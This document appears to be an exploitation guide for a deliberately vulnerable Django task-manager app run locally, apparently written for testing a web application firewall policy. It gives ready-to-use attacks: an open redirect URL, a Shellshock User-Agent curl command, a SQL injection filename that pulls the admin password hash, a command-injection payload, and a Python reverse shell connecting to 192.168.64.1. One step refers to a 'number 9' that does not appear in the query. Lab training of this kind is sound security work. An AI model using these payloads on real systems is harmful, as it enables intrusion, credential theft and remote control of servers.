 # Instructions for eploiting vulnerabilities in the djangonv app

## App Protect Policy

Some adjustments need to be made in order to allow some of the (poorly written) code to run:


/taskManager/register triggers the SQL Injection Syntax Error algorithm.  Best to disable it for this app.

/taskManager/login/, /taskManager/logout and others triggers Redirect Protection.  Need to alter policy to allow http://127.0.0.1:8000/*


## Exploits

### Open Redirect Vulnerability

The /taskManager/logout endpoint is susceptible to an open redirect.
Threat actors can leverage these types of vulnerabilities to redirect the user's browser to a URL of their choice.  
The typical exploit vector is via a malicious embedded link in an email.

Demonstrate the vulnerability by pasting the following into the browser's URL space:
```
/taskManager/logout?redirect=http://www.yahoo.com
```

### Malicious Payload (Intrusion Prevention)
```
curl -H "User-Agent: () { :; }; /bin/eject" http://127.0.0.1:8000
```

### Remote Command Execution

To trigger a Remote Command Execution (that's actually both a RCE and SQLi..), do this:
```
1. Go to http://127.0.0.1:8000/ and click "Sign Up"
```
```
2. Fill out the form and click Register (remember your username and password.  ie: test, test, test, test@test.com test)
```
```
3. Login as the new user.
```
```
4. Once logged in, create a new prject by replacing the URL with:  http://127.0.0.1:8000/taskManager/project_create
```
```
5. Fill out the form with some data.  Be sure to select a future date for the project due date!
```
```
6. Click the link for the new project you just created.
```
```
7. Click the "Add files" link.  
```
```
8. Pick any file from your local computer, and use the following payload for the filename:
    '||(SELECT password FROM auth_user WHERE username='admin')||'

    NOTE: replace the number 9 in the above query with the project ID in the url.
```
Once this exploit has succeeded, you should see the file in the project file list. When you attempt to download this file, you should receive an error page (FileNotFound Error). However, the filename, containts the MD5 hash of the password of the admin user (after the "***"). You should be able to crack this password using JTR or rainbow tables or other.

### OS Command Injection:

Same place as in for the SQLi, "My Projects" --> project you created, add files.
Also pick any file from your local computer, but for payload use:

innocent sleep statement:
```
some_file_name; sleep 1m
```

python connectback shell:
```
some_file_name; python -c 'import socket, subprocess,os;s=socket.socket(socket.AF_INET, socket.SOCK_STREAM);s.connect(("192.168.64.1", 8001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

